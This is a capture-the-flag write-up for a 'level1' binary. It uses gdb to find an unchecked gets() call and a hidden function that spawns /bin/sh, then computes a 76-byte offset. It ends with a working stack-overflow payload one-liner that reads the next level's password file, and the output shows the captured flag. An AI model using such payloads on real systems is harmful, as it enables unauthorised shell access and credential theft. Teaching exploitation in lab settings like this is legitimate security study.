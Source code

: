 Execute the *level1* binary:

```bash
./level1
abcd
```

```bash
```

> Note the *level1* binary read user input from stdin.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:	    push   ebp
   0x08048481 <+1>:	    mov    ebp,esp
   0x08048483 <+3>:	    and    esp,0xfffffff0
   0x08048486 <+6>:	    sub    esp,0x50
   0x08048489 <+9>:	    lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

After check the man of the *gets* function, note the section *BUGS*:

```man
Never use gets().  Because it is impossible to tell without knowing the data in ad‐
vance  how  many  characters  gets() will read, and because gets() will continue to
store characters past the end of the buffer, it is extremely dangerous to use.   It
has been used to break computer security.  Use fgets() instead.

For  more  information, see CWE-242 (aka "Use of Inherently Dangerous Function") at
http://cwe.mitre.org/data/definitions/242.html
```

Check the [suggested link](https://cwe.mitre.org/data/definitions/242.html) talking of __overflow__.

Do some research to find this [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) ressource.

Because the address where to write given in argument to the *gets* function is pointing on the stack frame, the exploit we have to use is a [stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) (link finded from the previous one).

We want to overflow the stack frame part allowed for local variable to the return address (eip register) of the current *main* function for jump to where we want instead of returning where the *main* function was called from.

Find somewhere to jump by checking functions:

```gdb
info functions
```

```gdb
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

Look what's in the *run* function:

```gdb
disass run
```

```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	    push   ebp
   0x08048445 <+1>:	    mov    ebp,esp
   0x08048447 <+3>:	    sub    esp,0x18
   0x0804844a <+6>:	    mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Note the call to the *system* function.

```man
The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3).
```

Check what is given as an argument to the *system* function:

```gdb
x/s 0x8048584
```

```gdb
0x8048584:	 "/bin/sh"
```

So call this *run* function is what we want, because it gives use the access to the shell with the rights for the *level1* binary.

Have to point the return address (eip register) saved in the stack of the the *main* function to this *run* function.

Let's check how many byte need to write in the stack to access to the return address:

```gdb
b *0x08048490
run
x $esp
info frame
```

```gdb
...
0xbffff5e0:     0xbffff5f0
...
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

Here the __esp__ register (before the call of the *gets* function using the break) points to *0xbffff5f0* and the return address (__eip__ saved register) is saved at *0xbffff63c*.

Compute the difference between these two addresses to know how many byte have to write for access to the saved return address in the stack.

> esp - saved eip = 0xbffff63c - 0xbffff5f0 = 3221222972 - 3221222896 = __76 bytes__

To overwrite the saved eip return address, the input need to have a length of 76 bytes followed by the value we want (here the *run* function address).

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end).

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x44\x84\x04\x08" ; cat) | ./level1
cat /home/user/level2/.pass
exit
```

> "\x44\x84\x04\x08" is the reversed *run* function address (initially 0x __08048444__).

> Use __cat__ to keep stdin open.

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

Segmentation fault (core dumped)
```